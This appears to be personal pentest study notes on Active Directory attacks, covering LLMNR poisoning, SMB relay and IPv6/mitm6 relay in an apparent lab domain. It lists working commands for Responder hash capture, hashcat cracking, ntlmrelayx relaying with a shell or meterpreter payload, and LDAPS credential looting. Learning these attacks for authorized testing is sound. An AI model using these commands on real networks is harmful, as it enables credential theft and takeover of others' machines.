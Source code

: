 # LLMNR Poisoning
 - Link Local Multicast Name Resolution.
 - Previously known as  NBT-NS.
 - Used to identify hosts when DNS fails.
 - Flaw here is, service responds with username and NTLM-v2 Hash when approiately responded to.
 - Attack process
    1. Victim tries to connec to `\\some_machine`, so it queries DNS server.
    2. If the server does not have, the victim does a broadcast.
    3. The attacker then replies to victim, yes i have `\\some_machine`, send me your hash, and I will connect you to it.
    4. Victim then sends its NTLM hash.
 - Needs lot of traffic, so run first thing. 
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv`
 - `hashcat -m 5600 hash.txt rockyou.txt`

# SMB relay
 - Instead of cracking hash, just pass in the hash directly.
 - To find devices with smbsigning disabled `nmap --script=smb2-security-mode.nse -p445 <network>/24`.
 - Usually servers have smb signing enabled and required, but hosts will have smb signing enabled but not required.
 - Needs SMB signing to be disabled (SMB signing disabled means machine does not check where the hash came from), relayed creds must have admin priv on machine.
 - Turn off SMB and HTTP, we don't want to respond, listen on rsponder for hashes.
 - use ntlmrelayx `python ntlmrelayx -tf targets.txt -smb2support`. targets.txt will have IPs of victims.
 - For newer kali `impacket-ntlmrelayx -tf targets.txt -smb2support`
 - `-i` to get interactive smb shell, `-e meterpreter.exe`

## IPv6 attack
 - A system has IPv6 configured, DNS for it is usually not configured, an attacker claims itself to be DNS server for IPv6, and when victim queries it, it will get creds as well.
 - `mitm6 -d MARVEL.local` to listen
 - `ntlmrelayx.py -6 -t ldaps://<AD_IP> -wh fakewpad.ldap.local -l lootme`
